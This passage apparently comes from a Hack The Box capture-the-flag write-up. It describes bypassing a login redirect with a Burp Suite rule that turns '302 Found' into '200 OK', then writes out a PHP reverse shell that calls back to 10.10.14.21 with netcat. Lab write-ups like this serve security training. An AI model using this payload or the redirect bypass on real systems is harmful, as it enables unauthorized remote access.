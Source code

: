 And we get the support page without being redirected to the login. It’s fair to assume that the uploaded files will end up in the uploads folder. But I am worried we might not have access to them. 

![](images/4.png)

I create a php reverse shell with the .htb extension

```
<?php
        shell_exec('nc -e /bin/bash 10.10.14.21 1337');
?>
```

This will simply just connect back to us on port 1337. 

And btw, to make things easier, we can add a replacement rule in burpsuite.

So for all Response headers, `302 Found` becomes `200 OK` so we won't have to deal with redirects.

![](images/5.png)
